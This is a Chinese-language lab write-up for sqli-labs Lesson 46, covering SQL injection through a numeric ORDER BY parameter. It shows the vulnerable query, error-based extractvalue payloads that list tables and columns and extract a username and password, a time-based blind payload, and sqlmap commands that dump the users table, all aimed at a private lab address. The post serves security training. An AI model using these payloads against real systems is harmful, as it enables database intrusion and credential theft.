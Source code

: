 ```yaml
---
title: sqli-labs-lession 46 GETE基于错误-数字型 OrderBy注入
date: 2018-11-04 17:21:03
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs-lession 46 GETE基于错误-数字型 OrderBy注入

---

## 登录界面

![001](/img/sql/Lesson-46/001.png)

## 分析

本关的sql语句就是下面的了

`$sql = "SELECT * FROM users ORDER BY $id";`

```
order by 可以加字段名，表达式和字段的位置，字段的位置需要是整数型。不可以跟union。
ORDER BY {col_name | expr | position} 
```

order在之前是用来判断列数的,这里照样。

![002](/img/sql/Lesson-46/002.png)

![003](/img/sql/Lesson-46/003.png)

数字型的当输入正常的列数时会根据列进行排序。

![004](/img/sql/Lesson-46/004.png)

## 注入过程

### 判断字符型

通过desc或者asc排序判断。

![005](/img/sql/Lesson-46/005.png)

判断为数字型

### 报错注入



本课是有报错的,可以利用报错注入

`http://10.60.250.60/sql/Less-46/?sort=1 and extractvalue(null,concat(0x7e,database(),0x7e))`

![006](/img/sql/Lesson-46/006.png)

`http://10.60.250.60/sql/Less-46/?sort=1 and extractvalue(null,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='security'),0x7e))`

![007](/img/sql/Lesson-46/007.png)

`http://10.60.250.60/sql/Less-46/?sort=1 and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e))`

![008](/img/sql/Lesson-46/008.png)

`http://10.60.250.60/sql/Less-46/?sort=1 and extractvalue(null,concat(0x7e,(select concat(username,0x7e,password) from security.users limit 0,1),0x7e))`

![009](/img/sql/Lesson-46/009.png)

### 时间盲注

payload:

`10.60.250.60/sql/Less-46/?sort=1 and if(1=2, sleep(1), null)`

## SQLMAP

`sqlmap -u http://10.60.250.60/sql/Less-46/?sort=1 --dbms mysql --technique E `

![010](/img/sql/Lesson-46/010.png)

![011](/img/sql/Lesson-46/011.png)

`sqlmap -u http://10.60.250.60/sql/Less-46/?sort=1 --dbms mysql --technique E --dbs`



![012](/img/sql/Lesson-46/012.png)

`sqlmap -u http://10.60.250.60/sql/Less-46/?sort=1 --dbms mysql --technique E -D security --tables`

![013](/img/sql/Lesson-46/013.png)

`sqlmap -u http://10.60.250.60/sql/Less-46/?sort=1 --dbms mysql --technique E -D security -T users --columns --dump`

![014](/img/sql/Lesson-46/014.png)

